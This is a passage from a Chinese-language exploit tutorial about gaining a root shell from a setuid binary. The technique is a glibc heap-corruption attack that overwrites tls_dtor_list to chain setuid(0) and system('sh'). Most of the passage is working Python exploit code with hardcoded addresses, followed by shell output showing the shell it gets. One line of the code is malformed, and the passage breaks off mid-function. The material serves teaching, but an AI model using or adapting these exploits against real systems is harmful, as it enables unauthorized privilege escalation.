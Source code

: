 ``` python
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996
print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
执行上述漏洞利用代码，并不能给我们root shell。它只能提供运行在我们自己权限上的bash shell。  

``` bash
$ python -c 'print "A"*16' > inp_file
$ python exp_try.py 
Calling vulnerable program
sh-4.2$ id
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ exit
exit
$
```

## 0X05 为什么没能获取root shell

当 `uid != euid` 时，/bin/bash会丢弃权限。我们的二进制文件 ’consolidate _forward’ 的真实uid=1000，有效uid=0。 由于真实uid!=有效uid，因此当 system() 被调用时，bash会丢弃权限。为了解决这个问题，我们需要在执行system()之前调用setuid(0)，由于_call_tls_dtors 遍历 tls_dtor_list 并一个一个调用其中的函数，我们需要链接 setuid() 和 system() 。  
Full Exploit Code:  
``` python
#gen_file.py
#!/usr/bin/env python
import struct

#dtor_list
setuid = 0x4e123e30
setuid_arg = 0x0
mp = 0x804b020
nxt = 0x804b430

#endianess convertion
def conv(num):
 return struct.pack("<I",num)
tst = # setuid
tst += conv(setuid_arg)
tst += conv(mp)
tst += conv(nxt)

print tst
-----------------------------------------------------------------------------------------------------------------------------------
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b008
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
```